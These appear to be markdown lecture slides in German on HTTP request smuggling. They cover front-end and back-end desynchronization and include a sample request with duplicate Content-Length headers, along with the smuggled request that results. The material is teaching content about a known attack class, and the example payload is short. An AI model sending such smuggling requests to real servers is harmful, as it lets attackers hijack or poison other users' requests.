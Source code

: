```yaml
---
author: Andreas Happe
title: Web Security
--- 
```


# HTTP Request Smuggling

## About

* Angriff auf die "Infrastruktur"
* Kudos zu [PortSwigger](https://portswigger.net/web-security/request-smuggling)
* Community Mention 2019

## Normaler Ablauf

![Picture](0x08_revproxy.svg){.stretch}

## Angriff

![Picture](0x08_revproxy-desynced.svg){.stretch}

## HTTP Request Länge

Content-Length Header:

``` http
POST /search HTTP/1.1
Host: normal-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling
```

## Angriff (~2005):

``` http
POST / HTTP/1.1
Host: example.com
Content-Length: 6
Content-Length: 5

12345G
```

Might result in:
``` http
POST / HTTP/1.1
Host: example.com
Content-Length: 6
Content-Length: 5

12345GPOST / HTTP/1.1
Host: example.com
```
